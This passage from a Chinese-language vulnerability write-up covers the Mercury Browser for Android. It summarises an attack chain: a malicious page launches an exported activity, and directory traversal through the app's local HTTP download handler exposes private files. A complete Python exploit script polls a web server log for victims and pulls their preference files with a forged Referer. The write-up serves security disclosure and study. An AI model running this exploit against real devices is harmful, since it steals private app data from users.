 根据HTTPDownHandler中的处理代码，

![image](http://drops.javaweb.org/uploads/images/cc8aeb702db29d04876305a151464eb509d78ee5.jpg)

需要正确设置HTTP请求中的Referer才能进入成功的下载处理分支。

![image](http://drops.javaweb.org/uploads/images/91ea94ed8547316447277d34b0fa80ca5e28f638.jpg)

对程序配置文件私有目录打包下载![image](http://drops.javaweb.org/uploads/images/800f236cd2b655edf2e81822aadbba38046e7aca.jpg)使用doupload命令类似，可以实现上传文件到程序私有目录。

#### 5. 漏洞利用总结

至此，一系列漏洞利用组合可归纳如下：

(1) 通过恶意网页的Intent URI Scheme启动WFMActivity2

(2) 记录使用水星浏览器目标用户的IP地址

(3) 轮询WFMActivity2是否被启动

(4) 利用目录穿越漏洞下载水星浏览器的私有目录文件

附攻击脚本（使用lighttpd）

```
import os,re,requests

def poll():

    keyword = 'evil.html'
    while True:
        with open("/usr/local/var/log/lighttpd/access.log", 'r') as f:
            print 'Polling...\n'
            for line in f.readlines():
                if re.search(keyword, line):
                    target = line.split()[0]
                    headers = {'Referer': 'http://%s:8888/'%target}
                    url = 'http://%s:8888/dodownload'%target
                    payload = {'fname': '../../../../data/data/com.ilegendsoft.mercury/shared_prefs/com.ilegendsoft.mercury_preferences.xml'}
                    try:
                        r = requests.get(url, params = payload, headers = headers)
                        print 'Exploiting...\n'
                        print r.status_code, r.content
                        return
                    except Exception as e:
                        continue
                else:
                    continue
if __name__ == '__main__':
    poll()

```

攻击效果

![image](http://drops.javaweb.org/uploads/images/5c34fceeb8bdcc3417ac5b693d8d68fb9238fc67.jpg)

0x03 参考
=====

```
[1] http://rotlogix.com/2015/08/22/remote-code-execution-in-dolphin-browser-for-android/

[2] http://rotlogix.com/2015/08/23/exploiting-the-mercury-browser-for-android/
```